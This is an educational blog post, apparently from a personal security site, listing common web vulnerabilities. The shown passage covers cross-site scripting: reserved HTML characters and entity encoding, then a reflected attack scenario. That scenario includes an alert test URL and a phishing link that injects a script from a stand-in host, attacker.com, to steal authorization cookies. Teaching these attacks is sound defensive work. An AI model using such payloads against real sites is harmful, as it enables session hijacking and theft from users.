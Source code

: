 Title: A List of Common Web Vulnerabilities
Date: 2014-10-31 6:30
Category: Web Security
Tags: XSS, CSRF, XSSI, Buffer_Overflow, LFI, RFI, iframe, SQLi


Although nomenclatures don't help much when you are facing a security problem, I am keeping this list for a systematic organization. It has regularly been updated.

In addition to this list, you can check some specific web exploration older posts: [Exploiting the web in 20 lessons](http://singularity.miavonsteinkirch.com/exploiting-the-web-in-20-lessons-natas.html) and [D-Camp CTF 2014](http://singularity.miavonsteinkirch.com/exploring-d-ctf-quals-2014s-exploits.html).

# Vulnerabilities to Web Applications


## Cross-site Scripting (XSS)

XSS is caused by **insufficient input validation or output escaping**. This vulnerability can allow an attacker to insert HTML markup or scripts in a vulnerable website. The injected code will have plenty of access in this site, and in many cases, to the HTTP cookies stored by the client.


HTML has five characters that are reserved:

* **both angle brackets**,

* **single and double quotes**,

* and **ampersand**.

The ampersand should never appear in most HTML sections. Both angle brackets should not be used inside a tag unless adequately quoted. Quote characters inside a tag can also be harmless in text.

To allow these characters to appear in problematic locations, an encoding based in an ampersand-prefixed and a semicolon-terminated scheme is used: the [Entity Encoding](http://www.w3schools.com/html/html_entities.asp).


### Non-Persistent Attack:

XSS non-persistent attacks consist of getting users to click a link with attacker's script. A typical scenario is the following:

1. The target website performs query searches that are not sanitized. For example, the query could accept scripts on it. A simple example to check this vulnerability is by verifying whether the alert box with the message **Pwnd** is displayed:
```
http://website.org?q=<script%20type='text/javascript'>alert('Pwnd!');</script>
```

2. The attacker crafts an exploit script that gets the victim's authorization information (for example in an **Authorization Cookie**). The attacker sends a **phishing email** to the victim with a link with some script such as:

```
http://website.org?q=puppies<script%20src="http://attacker.com/exploit.js">
```
